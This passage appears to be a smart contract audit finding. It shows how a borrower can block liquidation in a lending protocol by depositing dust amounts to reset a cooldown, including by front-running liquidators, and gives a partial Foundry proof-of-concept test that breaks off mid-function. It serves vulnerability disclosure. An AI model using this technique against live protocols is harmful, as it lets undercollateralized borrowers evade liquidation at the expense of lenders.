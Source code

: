  ```solidity
    ....
   }
 ```
 
 Since the borrower can reset his cooldown by depositing/withdrawing he can quite easily deposit a minimum amount of wei before each liquidation call which will make `liquidateUser()` revert because the coolDown is not expired
 
 Since the minimum deposit amount is 100 wei, it wouldn't cost the borrower anything to deposit a dust amount and reset his cooldown.
 
 I've calculated that for a default cooldown period of 1 hour it would cost the borrower 0.000000000000145642 $ (or practically nothing) to block liquidation for a period of 30 days. Considering the coolDown period can be increased to 6 hours the cost would be even lower - about x6 lower.
 
 Below I've coded a POC to prove all of this
 
 ## Proof of Concept
 Add this test to CollateralAndLiquidity.t.sol and run `forge test --rpc-url "https://rpc.sepolia.org/" --contracts src/stable/tests/CollateralAndLiquidity.t.sol --mt testPreventLiquidation -v`
 
 Here is a breakdown of the POC:
 
 * Alice(the bad borrower) deposits collateral and borrows USDS
 * The collateral ratio drops below the liquidation threshold
 * Bob wants the 5% reward for calling liquidation and goes for it
 * But Alice is monitoring the mempool and front-runs him by depositing a dust amount of collateral, resetting her coolDown timer and preventing Bob from successfully liquidating her
 * After that I've also provided an example of how Alice could block liquidations for an extended period of time (even without watching the mempool) by simply depositing small amount at regular intervals, so that her coolDown never expires. All that at almost no cost.
 
 ```solidity
 function testPreventLiquidation() public {
         // 0. Bob deposits collateral so alice can be liquidated
         vm.startPrank(bob);
         collateralAndLiquidity.depositCollateralAndIncreaseShare(
             wbtc.balanceOf(bob),
             weth.balanceOf(bob),
             0,
             block.timestamp,
             false
         );
         vm.stopPrank();
 
         // 1. Alice deposits some collateral
         vm.startPrank(alice);
         uint256 wbtcDeposit = wbtc.balanceOf(alice) / 4;
         uint256 wethDeposit = weth.balanceOf(alice) / 4;
 
         collateralAndLiquidity.depositCollateralAndIncreaseShare(
             wbtcDeposit,
             wethDeposit,
             0,
             block.timestamp,
             true
         );
 
         // 2. Alice borrows USDS
         uint256 maxBorrowable = collateralAndLiquidity.maxBorrowableUSDS(alice);
         collateralAndLiquidity.borrowUSDS(maxBorrowable);
         vm.stopPrank();
 
         // 3. Time passes and collateral price crashes
         vm.warp(block.timestamp + 1 days);
         // Crash the collateral price so Alice's position can be liquidated
 ```